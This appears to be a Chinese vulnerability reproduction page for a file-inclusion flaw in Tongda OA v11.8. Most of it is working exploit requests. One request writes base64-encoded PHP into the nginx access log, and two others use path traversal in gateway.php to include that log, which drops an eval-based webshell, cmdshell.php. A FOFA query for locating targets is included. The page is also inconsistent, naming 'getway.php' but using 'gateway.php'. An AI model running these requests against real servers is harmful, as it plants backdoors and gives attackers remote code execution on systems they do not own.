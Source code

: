 # 通达OA v11.8 getway.php 远程文件包含漏洞

## 漏洞描述

通达OA v11.8 getway.php 存在文件包含漏洞，攻击者通过发送恶意请求包含日志文件导致任意文件写入漏洞

## 漏洞影响

<a-checkbox checked>通达OA v11.8</a-checkbox></br>

## FOFA

<a-checkbox checked>app="TDXK-通达OA" </a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1628303888717-4ffc91a6-e87e-4e00-8bd5-b2218bb0772a-20220313173009245.png)

发送恶意请求让日志被记录

```php
GET /d1a4278d?json={}&aa=<?php @fputs(fopen(base64_decode('Y21kc2hlbGwucGhw'),w),base64_decode('PD9waHAgQGV2YWwoJF9QT1NUWydjbWRzaGVsbCddKTs/Pg=='));?> HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip
```

![img](../../../.vuepress/public/img/1628304243872-a7ae1965-2e21-4551-9d92-b42a3468617b.png)

在通过漏洞包含日志文件

```php
POST /ispirit/interface/gateway.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 54
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

json={"url":"/general/../../nginx/logs/oa.access.log"}
```

![img](../../../.vuepress/public/img/1628304347438-754f2570-1b25-4e9e-b822-ec78c2ca944a.png)

再次发送恶意请求写入文件

```php
POST /mac/gateway.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 54
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

json={"url":"/general/../../nginx/logs/oa.access.log"}
```

![img](../../../.vuepress/public/img/1628304579748-4614da68-4756-43a6-b7c1-dc6e9e034819.png)

访问写入的文件 **/mac/cmdshell.php**![img](../../../.vuepress/public/img/1628304836865-aee81900-a2a1-402c-9915-77a3d908e480.png)